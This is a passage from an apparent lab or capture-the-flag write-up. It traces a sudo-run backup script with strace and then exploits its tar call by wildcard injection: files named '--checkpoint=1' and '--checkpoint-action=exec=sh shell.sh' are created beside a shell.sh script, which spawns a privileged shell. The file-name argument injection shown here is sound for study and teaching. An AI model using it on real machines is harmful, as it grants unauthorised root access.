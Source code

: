     [pid  1781] execve("/bin/date", ["/bin/date", "+%Y%m%d"], ["TAR_FORMAT=gnu", "TAR_SUBCOMMAND=-c", "SHELL=/bin/bash", "TERM=unknown", "OLDPWD=/usr/local/bin", "TAR_BLOCKING_FACTOR=20", "USER=bryan", "LS_COLORS=", "SUDO_USER=robin", "SUDO_UID=1000", "USERNAME=bryan", "MAIL=/var/mail/bryan", "PATH=/usr/local/bin:/bin:/usr/bin:/usr/local/sbin:/usr/sbin", "PWD=/usr/share/nginx/serverchecker/storage", "LANG=en_US.UTF-8", "TAR_CHECKPOINT=1", "TAR_ARCHIVE=/home/sean/backup_20160312.tar.gz", "HOME=/home/bryan", "SUDO_COMMAND=/usr/local/bin/dice", "SHLVL=14", "LOGNAME=bryan", "TAR_VERSION=1.26", "LESSOPEN=||/usr/bin/lesspipe.sh %s", "SUDO_GID=1000", "_=/bin/date"]) = 0
    [pid  1782] execve("/bin/tar", ["/bin/tar", "-zvcf", "/home/sean/backup_20160312.tar.gz", "app", "--checkpoint-action=exec=sh shell.sh", "database.sqlite", "framework", "logs", "shell.sh"], ["TAR_FORMAT=gnu", "TAR_SUBCOMMAND=-c", "SHELL=/bin/bash", "TERM=unknown", "OLDPWD=/usr/local/bin", "TAR_BLOCKING_FACTOR=20", "USER=bryan", "LS_COLORS=", "SUDO_USER=robin", "SUDO_UID=1000", "USERNAME=bryan", "MAIL=/var/mail/bryan", "PATH=/usr/local/bin:/bin:/usr/bin:/usr/local/sbin:/usr/sbin", "PWD=/usr/share/nginx/serverchecker/storage", "LANG=en_US.UTF-8", "TAR_CHECKPOINT=1", "TAR_ARCHIVE=/home/sean/backup_20160312.tar.gz", "HOME=/home/bryan", "SUDO_COMMAND=/usr/local/bin/dice", "SHLVL=14", "LOGNAME=bryan", "TAR_VERSION=1.26", "LESSOPEN=||/usr/bin/lesspipe.sh %s", "SUDO_GID=1000", "_=/bin/tar"]) = 0
    [pid  1783] execve("/usr/local/bin/gzip", ["gzip"], ["TAR_FORMAT=gnu", "TAR_SUBCOMMAND=-c", "SHELL=/bin/bash", "TERM=unknown", "OLDPWD=/usr/local/bin", "TAR_BLOCKING_FACTOR=20", "USER=bryan", "LS_COLORS=", "SUDO_USER=robin", "SUDO_UID=1000", "USERNAME=bryan", "MAIL=/var/mail/bryan", "PATH=/usr/local/bin:/bin:/usr/bin:/usr/local/sbin:/usr/sbin", "PWD=/usr/share/nginx/serverchecker/storage", "LANG=en_US.UTF-8", "TAR_CHECKPOINT=1", "TAR_ARCHIVE=/home/sean/backup_20160312.tar.gz", "HOME=/home/bryan", "SUDO_COMMAND=/usr/local/bin/dice", "SHLVL=14", "LOGNAME=bryan", "TAR_VERSION=1.26", "LESSOPEN=||/usr/bin/lesspipe.sh %s", "SUDO_GID=1000", "_=/bin/tar"]) = -1 ENOENT (No such file or directory)
    [pid  1783] execve("/bin/gzip", ["gzip"], ["TAR_FORMAT=gnu", "TAR_SUBCOMMAND=-c", "SHELL=/bin/bash", "TERM=unknown", "OLDPWD=/usr/local/bin", "TAR_BLOCKING_FACTOR=20", "USER=bryan", "LS_COLORS=", "SUDO_USER=robin", "SUDO_UID=1000", "USERNAME=bryan", "MAIL=/var/mail/bryan", "PATH=/usr/local/bin:/bin:/usr/bin:/usr/local/sbin:/usr/sbin", "PWD=/usr/share/nginx/serverchecker/storage", "LANG=en_US.UTF-8", "TAR_CHECKPOINT=1", "TAR_ARCHIVE=/home/sean/backup_20160312.tar.gz", "HOME=/home/bryan", "SUDO_COMMAND=/usr/local/bin/dice", "SHLVL=14", "LOGNAME=bryan", "TAR_VERSION=1.26", "LESSOPEN=||/usr/bin/lesspipe.sh %s", "SUDO_GID=1000", "_=/bin/tar"]) = 0

* The `-s 999` allows to specify the maximum string size to print
* the -v prints more informations
* the -f see the child process calls, you would not see a lot of things without
  this flag

We can see that the `tar` utility is used. We have seen in the previous link
that we can exploit it using the `checkpoint`. The backup directory is
`/usr/share/nginx/serverchecker/storage`.

    [bryan@fII bin]$ touch '/usr/share/nginx/serverchecker/storage/--checkpoint=1'
    [bryan@fII bin]$ touch '/usr/share/nginx/serverchecker/storage/--checkpoint-action=exec=sh shell.sh'
    [bryan@fII bin]$ echo '/bin/sh' > /usr/share/nginx/serverchecker/storage/shell.sh
    [bryan@fII bin]$ chmod +x /usr/share/nginx/serverchecker/storage/shell.sh
    [bryan@fII bin]$ ls -al /usr/share/nginx/serverchecker/storage/
    total 20
    drwxrwxrwx.  5 nginx nginx 4096 Mar 12 11:54 .
    drwxr-xr-x. 10 nginx nginx 4096 Jun 22  2015 ..
    drwxr-xr-x.  2 nginx nginx   23 Jun 22  2015 app
    -rw-rw-r--   1 bryan bryan    0 Mar 12 11:52 --checkpoint=1
    -rw-rw-r--   1 bryan bryan    0 Mar 12 11:53 --checkpoint-action=exec=sh shell.sh
    -rwxrwxrwx.  1 nginx nginx 6144 Feb 14 14:40 database.sqlite
    drwxr-xr-x.  5 nginx nginx   45 Jun 22  2015 framework
    drwxr-xr-x.  2 nginx nginx   39 Jun 22  2015 logs
    -rw-rw-r--   1 bryan bryan    8 Mar 12 11:54 shell.s
